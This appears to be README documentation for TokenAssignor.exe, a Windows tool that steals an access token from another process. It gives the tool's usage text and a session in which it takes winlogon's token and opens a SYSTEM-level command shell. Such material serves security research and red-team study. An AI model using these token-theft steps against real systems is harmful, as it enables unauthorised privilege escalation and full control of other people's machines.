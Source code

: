 ```
PS C:\Dev> .\TokenAssignor.exe

TokenAssignor - Tool to execute token assigned process.

Usage: TokenAssignor.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies a command to execute. Default is cmd.exe.
        -m, --method  : Specifies a method ID (0 - 3).
        -p, --pid     : Specifies a source PID for token stealing.

[!] -m option is required.
```

This tool tries to steal token from a specified process and execute a token assigned process.
Most of methods require administrative privileges.
To execute a token assigned process with `CreateProcessAsUser` API, set `-m` option to `0`:

```
PS C:\Dev> Get-Process winlogon

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    270      13     2452      10108       0.33    688   1 winlogon

PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 0

[+] SeDebugPrivilege is enabled successfully.
[+] SeImpersonatePrivilege is enabled successfully.
[+] Got a primary token from PID 688 (Handle = 0x68).
[+] Got a impersonation token from winlogon.exe (Handle = 0x2E0).
[+] Impersonation as winlogon.exe is successful.
[+] "C:\Windows\system32\cmd.exe" is executed successfully (PID = 9552).
[*] User of the created process is NT AUTHORITY\SYSTEM (SID: S-1-5-18).
Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Dev>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```

